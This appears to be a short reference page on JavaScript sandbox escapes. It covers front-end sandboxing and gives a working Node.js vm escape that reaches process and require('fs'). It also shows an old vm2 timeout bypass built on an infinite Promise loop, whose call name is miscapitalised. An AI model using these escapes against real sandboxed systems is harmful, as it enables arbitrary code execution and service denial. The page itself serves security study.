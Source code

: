 Sandbox escape
========================================

Front-end sandbox
----------------------------------------
In the front-end, you may use deletion ``eval``, rewrite ``Function.prototype.constructor`` / ``GeneratorFunction`` / ``AsyncFunction`` and so on to complete the front-end sandboxing. In this case, you can use the way to create a new iframe to get a new execution environment.

Server side sandbox
----------------------------------------
JavaScript provides native vm modules for isolating the code context environment. However, in this environment, the standard JavaScript API and the global NodeJS environment can still be accessed.

In the native sandbox module, the commonly used escape methods are:

.. code-block:: javascript

const vm = require('vm');
const sandbox = {};
const whatIsThis = vm.runInNewContext(`
const ForeignObject = this.constructor;
const ForeignFunction = ForeignObject.constructor;
const process = ForeignFunction("return process")();
const require = process.mainModule.require;
require("fs");
`, sandbox);


Considering the shortcomings of JavaScript native vm module, some developers have designed vm2 to provide a safer isolation environment, but there are also some escape methods in the old version, such as:

.. code-block:: javascript

VM.RuninnewContext (
'Promise.resolve().then(()=>{while(1)console.log("foo", Date.now());}); while(1)console.log(Date.now())',
{console:{log(){console.log.apply(console,arguments);}}},
{timeout:5}
);
